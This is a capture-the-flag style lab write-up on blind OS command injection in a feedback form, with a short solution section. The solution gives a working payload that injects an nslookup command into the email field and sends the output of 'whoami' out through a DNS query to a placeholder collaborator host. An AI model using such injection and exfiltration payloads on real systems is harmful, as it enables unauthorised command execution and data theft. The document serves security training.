 # Blind OS command injection with out-of-band data exfiltration
PRACTITIONER

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Решение
`email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`
